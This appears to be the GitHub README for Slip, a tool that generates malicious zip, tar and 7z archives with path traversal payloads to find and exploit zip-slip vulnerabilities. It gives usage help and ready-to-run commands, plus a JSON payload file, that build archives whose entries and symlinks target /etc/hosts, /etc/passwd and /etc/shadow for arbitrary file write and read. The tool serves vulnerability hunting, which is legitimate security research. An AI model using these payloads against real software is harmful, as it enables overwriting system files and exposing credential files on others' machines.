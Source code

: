 # Slip (experimental branch)

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z** and **zip-like** (jar, war, apk, ipa, ...) archives 
- Allows to hunt for **arbitrary file write** and **arbitrary file read** vulnerabilities 
- Supports the generation of path traversal payloads to search for a file at different depths in the filesystem
- Implements a massfind mode, that uses a payload dictionary to generate the archive
- Allows cloning existing archives to add malicious payloads in more complex existing archives 

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --clone TEXT                Archive to clone. It creates a copy of an
                                  existing archive and opens to allow adding
                                  payloads.
  -j, --json-file TEXT            JSON file containing a list of file
                                  definitions.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path;name
  --file-content TEXT             Content of the files in the archive, file-
                                  content must be specified if -p/--paths is
                                  used.
  --search INTEGER                Maximum depth in path traversal payloads,
                                  this option generates payload to traverse
                                  multiple depths. It applies to all symlinks
                                  and paths.  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  dict.txt]
  --mass-find-placeholder TEXT    Filename placeholder in mass-find payload
                                  dictionary  [default: {FILE}]
  --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive.tar
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive.zip
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts;linkname" archive.zip  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/;foo`, path: `foo/hosts`).

Create an archive from an existing one and add a new payload:
```
python3 slip.py --clone source.7z --paths "foo" --file-content "bar" archive.7z
```

Create an archive from a JSON file and add new payloads:
```
python3 slip.py --json-file definition.json --paths "foo0,bar00" --symlinks "/etc/passwd,/etc/shadow" --file-content "buzz" archive.zip
```

With `definition.json` containing:
```
[
    {
        "file-name": "../foo1",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "../../foo2",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "/etc/passwd;foo3",
        "content":"IGNORED",
        "type":"symlink"
    },
    {
        "file-name": "foo4",
        "content":"Y2lhbwo=",
        "base64": true,
        "type":"path"
    }
]
```
Supported fields are `file-name`, `content`, `base64`, `type`.
If `base64` is specified, content will be decoded form base64.
`type` can only be `path` or `symlink`.

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive.tar
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```
NOTE: --search does not support named symlink usage to prevent named symlinks from overwriting eachother. 

Create a tar archive with payloads from the default mass-find dictionary to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive.tar
```

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
